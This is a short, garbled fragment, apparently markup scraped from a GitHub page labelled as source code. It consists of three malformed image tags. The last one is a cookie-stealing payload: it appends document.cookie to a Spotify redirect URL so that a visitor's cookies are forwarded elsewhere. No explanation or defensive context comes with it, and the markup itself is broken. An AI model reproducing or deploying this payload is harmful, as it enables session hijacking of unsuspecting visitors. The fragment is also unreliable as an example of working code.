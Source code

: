 <imgsrc='https://github.com/MaxPfaeffli/hi?path=epic.svg'> 
<imgsrc='https://cdn.discordapp.com/emojis/699716008532770866.gif'>
<imgsrc='https://play.spotify.com/legal/?fwdurl=' + document.cookie>

